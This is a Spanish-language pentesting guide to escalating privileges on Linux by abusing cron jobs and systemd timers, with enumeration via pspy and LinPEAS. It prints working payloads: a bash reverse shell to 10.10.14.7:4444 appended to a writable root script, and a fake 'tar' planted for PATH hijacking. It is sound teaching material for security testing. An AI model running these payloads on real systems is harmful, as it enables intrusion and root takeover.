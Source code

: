 # **Auditoría Maestra de Tareas Programadas en Linux para Pentesting**

En el ciclo de vida de un pentest, la fase de post-explotación es donde se forjan las victorias más significativas. Una vez dentro de un sistema, el objetivo primordial es la **escalada de privilegios**, y no hay un camino más directo y frecuentemente explotable que el abuso de tareas programadas. Los administradores, en su afán por automatizar, a menudo dejan tras de sí un rastro de configuraciones débiles que un atacante puede seguir hasta obtener acceso `root`.

Esta guía proporciona una metodología exhaustiva para identificar y explotar debilidades en todo el espectro de planificadores de tareas de Linux.

## **Parte 1: El Planificador Clásico y Omnipresente: `cron`**

`cron` es el caballo de batalla de la automatización en Linux. Su simplicidad es también su debilidad. Una auditoría de `cron` debe ser metódica y completa.

### **Paso 1.1: Mapear el Ecosistema `cron`**

Las tareas no residen en un solo lugar. Se debe inspeccionar cada uno de los siguientes archivos y directorios.

#### **A. El `crontab` del Sistema (`/etc/crontab`)**

Es el archivo de configuración central. Define las tareas a nivel de sistema y, crucialmente, la variable de entorno `PATH` por defecto que usarán las tareas.

**Comando de Inspección:**

```bash
cat /etc/crontab
```

**Ejemplo de Salida y Puntos de Interés:**

```ini
SHELL=/bin/sh
# La variable PATH es crítica. Si incluye directorios escribibles como /tmp,
# se abre la puerta al secuestro de PATH.
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
# ... otras líneas ...

# TAREA PERSONALIZADA SOSPECHOSA: Se ejecuta cada minuto como root.
# Este es un objetivo de alta prioridad.
* * * * * root    /opt/scripts/backup.sh
```

#### **B. Los Directorios `cron.d` y `cron.*`**

Estos directorios permiten una gestión modular de las tareas.

  * `/etc/cron.d/`: Contiene archivos de configuración de `cron` para aplicaciones específicas.
  * `/etc/cron.{hourly,daily,weekly,monthly}/`: Contienen scripts ejecutables.

**Comandos de Inspección:**

```bash
# Inspeccionar el directorio cron.d
ls -l /etc/cron.d/
cat /etc/cron.d/apache2

# Inspeccionar los scripts diarios y sus permisos
ls -l /etc/cron.daily/
```

### **Paso 1.2: Vectores de Explotación de `cron`**

#### **Vector A: Secuestro de Script por Permisos de Escritura (El más directo)**

**Escenario**: Se descubre una tarea de `root` que ejecuta un script sobre el que tenemos permisos de escritura.

**1. Descubrimiento (del `/etc/crontab`):**
`* * * * * root /usr/local/bin/maintenance.sh`

**2. Verificación de Permisos:**

```bash
ls -l /usr/local/bin/maintenance.sh
```

**Salida Vulnerable:**

```
-rwxr-xrwx 1 root root 58 Aug  5 20:10 /usr/local/bin/maintenance.sh
```

*El bit de escritura (`w`) para "otros" (`world`) es la luz verde.*

**3. Explotación (Inyección de Reverse Shell):**

```bash
# Se añade el payload al final del script sin borrar su contenido original
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1"' >> /usr/local/bin/maintenance.sh
```

Se inicia un listener (`nc -lvnp 4444`) y se espera a que el reloj marque el siguiente minuto para recibir una shell como `root`.

#### **Vector B: Abuso de la Variable `PATH`**

**Escenario**: Una tarea de `root` ejecuta un comando sin su ruta absoluta, y el `PATH` definido en `/etc/crontab` incluye un directorio que controlamos.

**1. Descubrimiento:**

  * `/etc/crontab` contiene: `PATH=/usr/bin:/bin:/home/user/tools`
  * El script `/usr/local/bin/compress.sh` (ejecutado por `root`) contiene la línea: `tar czf /backups/data.tgz /data`

**2. Explotación (Creación de un Falso `tar`):**
Como controlamos `/home/user/tools`, que está en el `PATH`, creamos nuestro propio `tar`.

```bash
# Crear el ejecutable malicioso
echo '#!/bin/bash' > /home/user/tools/tar
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1"' >> /home/user/tools/tar

# Darle permisos de ejecución
chmod +x /home/user/tools/tar
```

Cuando `cron` ejecute el script, buscará `tar` en el `PATH`, encontrará nuestra versión maliciosa primero y nos dará una shell de `root`.

-----

## **Parte 2: El Planificador Moderno: `systemd Timers`**

`systemd` ha reemplazado a `cron` en muchos sistemas modernos. Su mecanismo de "timers" es más complejo pero igualmente explotable.

### **Paso 2.1: Mapear los Timers de `systemd`**

Una tarea en `systemd` tiene dos componentes: un archivo `.timer` (el "cuándo") y un archivo `.service` (el "qué").

**Comando de Enumeración Central:**

```bash
systemctl list-timers --all
```

**Ejemplo de Salida y Puntos de Interés:**

```
NEXT                        LEFT          LAST                        PASSED       UNIT                         ACTIVATES
Wed 2025-08-06 00:00:00 CEST  5h 53min left Tue 2025-08-05 00:00:00 CEST  18h ago      logrotate.timer              logrotate.service
Wed 2025-08-06 06:21:24 CEST  12h left      Tue 2025-08-05 17:51:24 CEST  30min ago    apt-daily.timer              apt-daily.service
n/a                         n/a           n/a                         n/a          backup.timer                 backup.service
```

*La columna `ACTIVATES` nos dice qué servicio se ejecuta. `backup.timer` parece una tarea personalizada y, por tanto, un objetivo prioritario.*

### **Paso 2.2: Explotación de `systemd Timers`**

La metodología es idéntica a la de `cron`.

**1. Inspeccionar el Servicio:**
Se debe encontrar y leer el archivo de la unidad de servicio para saber qué comando ejecuta.

```bash
# Encontrar la ubicación del archivo de servicio
systemctl status backup.service

# Leer el archivo de servicio
cat /etc/systemd/system/backup.service
```

**Ejemplo de Archivo de Servicio Vulnerable:**

```ini
[Unit]
Description=Servicio de backup personalizado

[Service]
# Esta línea es nuestro objetivo. ¿Qué ejecuta y con qué permisos?
ExecStart=/bin/sh -c "/usr/local/bin/sync_files.sh"
User=root

[Install]
WantedBy=multi-user.target
```

*El `User=root` confirma que es un vector de escalada.*

**2. Verificar Permisos y Explotar:**
Se aplican los mismos vectores: se comprueban los permisos del script (`/usr/local/bin/sync_files.sh`) y de su directorio. Si se encuentra una debilidad, se inyecta el payload como se describió para `cron`.

-----

## **Parte 3: Herramientas del Arsenal para la Automatización**

La enumeración manual es precisa, pero lenta. Estas herramientas aceleran el proceso drásticamente.

### **`pspy`: El Espía de Procesos**

`pspy` es una herramienta que se ejecuta sin privilegios y monitoriza el sistema para registrar cualquier proceso que se inicie. Es la mejor manera de descubrir tareas `cron` sin tener que leer ningún archivo.

**Ejecución:**

```bash
./pspy64
```

**Salida Relevante:**
`pspy` imprimirá en tiempo real cualquier comando ejecutado por `cron`, mostrando el `UID` con el que se ejecuta, el `PID` y el comando completo.

```
2025/08/05 18:30:01 CMD: UID=0    PID=12345  | /usr/sbin/CRON -f
2025/08/05 18:30:01 CMD: UID=0    PID=12346  | /bin/sh -c /opt/scripts/backup.sh
```

*Esta salida nos dice instantáneamente que `root` (UID=0) está ejecutando `/opt/scripts/backup.sh`.*

### **`LinPEAS`: El Enumerador Automático**

`LinPEAS` es el script de enumeración por excelencia. Al ejecutarlo, tiene secciones específicas que buscan y resaltan con colores las configuraciones de tareas programadas potencialmente vulnerables, incluyendo `cron` y `systemd timers` con permisos débiles. Es el primer script que se debe ejecutar en cualquier máquina Linux comprometida.